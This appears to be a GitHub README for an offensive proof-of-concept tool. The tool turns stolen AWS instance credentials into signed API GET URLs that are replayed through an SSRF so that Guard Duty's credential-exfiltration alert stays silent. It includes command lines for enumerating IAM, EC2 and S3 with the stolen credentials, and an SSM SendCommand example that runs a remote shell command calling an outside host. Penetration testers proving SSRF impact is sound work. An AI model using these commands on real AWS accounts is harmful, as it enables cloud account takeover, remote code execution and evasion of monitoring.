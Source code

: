 # aws_url_signer

POC tool to create signed AWS API GET requests to bypass Guard Duty alerting of off-instance credential use via SSRF

# What?

AWS has a Guard Duty alert to advise when an AWS instance credential is used outside of the instance itself. This will give you as the account owner a heads up when the instance credentials are stolen using a vulnerability like a Server Side Request Forgery (SSRF) from the Metadata URL and then subsequently used from the attackers system.

This alerting relies on the instance credential being taken off the owning host and then used to make an AWS API query from a machine that is not in the associated AWS account. This is a common circumstance when instance credentials are comprimised via SSRF - attacker gets the instance creds from the metadata service on a vulnerable EC2 host, configures those credentials locally on their own local machine, and then calls the AWS API from there to try and further compromise the associated AWS account.  

Even though its not obviously exposed in the various client libraries (except for S3 signed URLs) however, it is possible to make general requests of the AWS API using HTTP GET requests. This approach enables you to create signed URLs to query the AWS API, send them via the same mechanism by which you compromised the credentials in the first place (e.g. SSRF), and bypass the Guard Duty alerting. This is because AWS API calls made in this way are not being made outside of the AWS account owning the credential - because you make the API call by sending the URL through the SSRF, from the perspective of the API server they are coming from the same EC2 instance that owns that credential.

There is [another approach](https://github.com/Frichetten/SneakyEndpoints) available to also bypass these alerts, but in comparison this method requires much less infrastructure and setup and can support more services. As a downside however, this approach prevents you from being able to use existing offensive tools that work with compromised credentials, requires a potentially greater understanding of the AWS API, and may be limited by the retrieval capabilities of the SSRF used.


# Usage

This tool is a proof of concept that implements the AWS v4 API signing algorithm for GET URLS. It has very minimal requirements, using `botocore` just to get the list of available services and API versions. 

It has a simple command line interface to run standalone and can also be imported as a module into other Python 3 code to allow it to be more easily used with other exploit code (e.g. SSRF, XXE, etc).

In the very simplest form, you can set your stolen credentials into the standard environment variables (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN`) and call the tool like the following to run the `GetCallerIdentity` action for the `sts` service.

```
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
```

This will spit out a signed URL, with a 180 second expiry time, that can be sent in your exploit to make the associated API call. The response will tell you about the  "caller Identity" of the credential you have.

You can do more complex stuff by sending parameters to the call as a JSON encoded string.

The following example uses SSM to generate a URL to remotely execute code against a managed Linux instance `i-xxxxxxxxxxxxxxxxx` in the account.

```
./aws_url_signer.py -environment -service ssm -action SendCommand -region ap-southeast-2 -parameters '{"InstanceIds": ["i-xxxxxxxxxxxxxxxxx"], "DocumentName": "AWS-RunShellScript", "Parameters": {"commands": ["curl http://test.site/123"]}}'
```


You can also stick the .py file in your Python path and use it in your code like so.

```
from aws_url_signer import AWSApiUrlGenerator

api = AWSApiUrlGenerator(access_key, secret_key, session_token)
request_url = api.create_service_url('s3', 'ListBuckets', region='ap-southeast-2')

```

To a large extent you do need to know the AWS API to be able to use this in a useful way, although I have provided some of the examples I have personally tested below.  To some extent you can use it in a similar way to the [AWS cli](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html), but the parameter format will be different in a number of cases, so you can combine it with the general API documentation [here](https://docs.aws.amazon.com/index.html). Find the service you want, and take what would normally be sent in a POST request for a particular API call and supply it JSON encoded to the `parameters` option, and it _SHOULD_ work.




# Warning 

This is a signed https URL that can perform AWS API calls as the compromised user. Standard warnings for leaving the URL where others can see it or having it leaked in logs or other intermediate devices applies. The URLs do expire after a default period of 180 seconds, so there is a limit to how long after they are generated they can be used.


# Alpha code

This should be considered Alpha quality code.

At the time of writing there are 313 services currently supported in the AWS API - I have only tested a small fraction of them that I personally needed to prove impact of SSRF related vulnerabilities.

While the AWS v4 API signing process is more or less standard across the various supported services, there are differences in where regional endpoints sit, and the specific nature of the signed payload and signing process for some services. This could mean that some services I have not specifically tested may not work, but I think many probably will.

The process by which more complex parameter structures are converted into GET compatible versions is also rather unique. It's possible my code to convert parameters from a standard JSON compatible format is wrong or incomplete, and this will only become clear once someone tries to send parameters more complex than the SSM code execution example above.

Feel free to raise issues or PRs if you find any problems.


# Examples

Here are some examples of running the command line version of the tool. There are some additional commented examples for using the module in code in the source.
```
./aws_url_signer.py -environment -service iam -action ListUsers
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
./aws_url_signer.py -region ap-southeast-2 -environment -service ssm -action DescribeInstanceInformation 
./aws_url_signer.py -region ap-southeast-2 -environment -service ec2 -action DescribeInstances -parameters '{"MaxResults": "5"}'
./aws_url_signer.py -region ap-southeast-2 -environment -service s3 -action ListBuckets
```
